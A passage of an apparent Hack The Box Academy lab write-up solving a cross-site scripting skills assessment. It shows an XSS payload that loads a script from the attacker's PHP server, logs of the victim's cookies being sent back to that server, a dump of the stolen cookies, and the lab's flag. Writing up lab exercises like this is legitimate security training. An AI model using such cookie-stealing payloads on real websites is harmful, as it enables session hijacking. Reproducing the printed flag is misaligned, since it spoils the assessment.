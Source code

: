 ```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8000

[Fri May 30 05:45:55 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.15.8:8000/script.js></script>
```

![Burp Suite - XSS Payload](./assets/screenshots/cross_site_scripting_skills_assessment_burpsuite_xss_payload.png)

```
[CONTINUE]

[Fri May 30 06:57:50 2025] 10.129.255.155:47066 Accepted
[Fri May 30 06:57:50 2025] 10.129.255.155:47066 [200]: GET /script.js
[Fri May 30 06:57:50 2025] 10.129.255.155:47066 Closing
[Fri May 30 06:57:50 2025] 10.129.255.155:47068 Accepted
[Fri May 30 06:57:50 2025] 10.129.255.155:47068 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1748606371;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
^C

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-e8y0wifeld]─[/tmp/tmpserver]
└──╼ [★]$ cat cookies.txt 

Victim IP: 10.129.255.155 | Cookie: wordpress_test_cookie=WP Cookie check
Victim IP: 10.129.255.155 | Cookie:  wp-settings-time-2=1748606371
Victim IP: 10.129.255.155 | Cookie:  flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
```

**Answer**

```
HTB{cr055_5173_5cr1p71n6_n1nj4}
```

---
---
